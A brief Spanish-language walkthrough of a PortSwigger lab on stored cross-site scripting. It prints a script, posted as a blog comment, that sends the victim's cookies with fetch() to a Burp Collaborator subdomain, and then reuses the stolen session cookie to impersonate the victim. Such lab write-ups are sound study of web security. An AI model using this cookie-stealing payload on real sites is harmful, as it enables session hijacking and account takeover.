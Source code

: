 # Exploiting cross-site scripting to steal cookies

Aqui es importante conocer de antemano el funcionamiento del **burp collaborator** 

> This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Este lab nos muestra el impacto de una vulnerabilidad de xss. Posteamos un comment con el siguiente codigo:

```text
<script>
fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Este se envia a nuestro burp collaborator. El subdomain se extrae del mismo collaborator: 9gq1dud084zohnming0dlccaa1gs4h.burpcollaborator.net fue el mio

![](../../../.gitbook/assets/imagen%20%28939%29.png)

Le damos poll now y trae lo que recibe.

De esto nos quedamos con su session

![](../../../.gitbook/assets/imagen%20%28940%29.png)

Luego nos quedamos con esa session para nosotros a la hora de hacer nuestra peticion.

![](../../../.gitbook/assets/imagen%20%28935%29.png)







